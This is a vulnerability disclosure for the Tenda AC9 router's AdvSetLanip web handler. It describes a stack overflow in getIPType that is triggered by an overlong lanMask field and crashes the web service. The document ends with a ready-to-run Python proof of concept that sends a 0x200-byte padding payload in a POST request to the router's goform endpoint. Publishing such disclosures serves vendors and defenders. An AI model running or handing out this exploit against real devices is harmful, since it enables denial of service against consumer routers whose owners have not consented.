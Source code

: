 # Tenda_AC9_AdvSetLanip_Denial_of_service 

Vender ：Tenda

Firmware version:US_AC9V3.0RTL_V15.03.06.42_multi_TD01.bin

Exploit Author: [doudoudedi233@gmail.com](mailto:doudoudedi233@gmail.com)

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link: https://www.tenda.com.cn/download/detail-2908.html

#### Describe

In Tenda AC9 ,firemware is US_AC9V3.0RTL_V15.03.06.42_multi_TD01.bin， In the option to control LAN setting, lanmask and lanip in the post  request are not limited in length.   Denial of service caused by The subsequent getIPType function

#### Detail

<img src="./img/image-20210917185312226.png" alt="image-20210917185312226" style="zoom:50%;" />

then

<img src="./img/image-20210917185355661.png" alt="image-20210917185355661" style="zoom:50%;" />

<img src="./img/image-20210917193316992.png" alt="image-20210917193316992" style="zoom:50%;" />

 Stack overflow occurs here 

#### TEST

<img src="./img/image-20210917190621960.png" alt="image-20210917190621960" style="zoom:50%;" />



 Web services will crash

<img src="./img/image-20210917192448620.png" alt="image-20210917192448620" style="zoom:50%;" />



#### POC

```
import requests
from pwn import *

url = "http://192.168.0.1/goform/AdvSetLanip"

payload = "a"*0x200
f=open("payload","w")
f.write(payload)
f.close()
f1=open("payload")
payload=payload+f1.read()
print payload
'''
proxies = {
  'http': 'http://127.0.0.1:8080',
  'https': 'http://127.0.0.1:8080',
}
'''
data={
	"lanIp":"192.168.33.9",
	"lanMask":"255.255.255.0"+payload,
	"dhcpEn": "",
	"startIp":"",
	"endIp":"",
	"leaseTime":"604800",
	"lanDnsAuto":"1",
	"lanDns1":"",
	"lanDns2":""
}
headers={
	"Host":"192.168.0.1",
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
	"Accept":"*/*",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://192.168.0.1",
	"Referer":"http://192.168.0.1/lan.html?random=0.6683676169698874&",
	"Upgrade-Insecure-Requests":"1",
	"Cookie":"password=wnucvb"
}
response = requests.request("POST", url, headers=headers, data=data)
```

